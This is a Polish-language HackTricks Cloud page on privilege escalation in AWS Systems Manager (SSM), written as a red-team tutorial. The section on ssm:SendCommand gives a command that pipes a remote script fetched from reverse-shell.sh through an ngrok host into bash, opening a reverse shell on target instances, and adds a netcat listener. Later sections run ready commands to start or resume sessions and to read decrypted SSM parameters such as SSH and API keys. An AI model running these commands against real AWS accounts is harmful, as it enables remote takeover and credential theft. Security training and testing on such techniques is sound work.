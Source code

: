 # AWS - Eskalacja uprawnień w SSM

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SSM

Aby uzyskać więcej informacji na temat SSM, sprawdź:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Atakujący posiadający uprawnienie **`ssm:SendCommand`** może **wykonywać polecenia na instancjach** działających z agentem Amazon SSM i **zagrozić roli IAM** działającej wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
W przypadku korzystania z tej techniki do eskalacji uprawnień wewnątrz już skompromitowanej instancji EC2, możesz po prostu przechwycić rev shell lokalnie za pomocą:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM.

### `ssm:StartSession`

Atakujący posiadający uprawnienia **`ssm:StartSession`** może **rozpocząć sesję podobną do SSH na instancjach** działających z agentem Amazon SSM i **naruszyć rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Aby rozpocząć sesję, musisz zainstalować **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM.

#### Podniesienie uprawnień do ECS

Kiedy **zadania ECS** są uruchamiane z włączonym **`ExecuteCommand`**, użytkownicy z wystarczającymi uprawnieniami mogą użyć `ecs execute-command` do **wykonania polecenia** wewnątrz kontenera.\
Zgodnie z [**dokumentacją**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) jest to realizowane poprzez utworzenie bezpiecznego kanału między urządzeniem, z którego rozpoczynasz polecenie „_exec_“, a docelowym kontenerem z menedżerem sesji SSM. (Wymagany jest plugin menedżera sesji SSM Session Manager)\
Dlatego użytkownicy posiadający `ssm:StartSession` będą mogli **uzyskać powłokę wewnątrz zadań ECS** z tą opcją włączoną, uruchamiając po prostu:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencjalne skutki:** Bezpośrednie podniesienie uprawnień do ról `ECS`IAM przypisanych do uruchomionych zadań z włączoną opcją `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący posiadający uprawnienia **`ssm:ResumeSession`** może **ponownie uruchomić sesję przypominającą SSH na instancjach** działających z agentem Amazon SSM w stanie **rozłączonej** sesji SSM i **zagrozić roli IAM** działającej wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalne skutki:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Atakujący posiadający wymienione uprawnienia będzie mógł wyświetlać **parametry SSM** i **odczytywać je w formie zwykłego tekstu**. W tych parametrach często można **znaleźć poufne informacje** takie jak klucze SSH lub klucze API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz parametrów.

### `ssm:ListCommands`

Atakujący posiadający to uprawnienie może wyświetlić wszystkie **polecenia** wysłane i mieć nadzieję znaleźć na nich **wrażliwe informacje**.
```
aws ssm list-commands
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w wierszach poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący posiadający te uprawnienia może wyświetlić wszystkie wysłane **polecenia** i **odczytać generowany wynik**, miejmy nadzieję znajdując na nim **wrażliwe informacje**.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w wynikach poleceń.

### Codebuild

Możesz również użyć SSM, aby uzyskać dostęp do projektu codebuild w trakcie budowy:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Zacznij hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
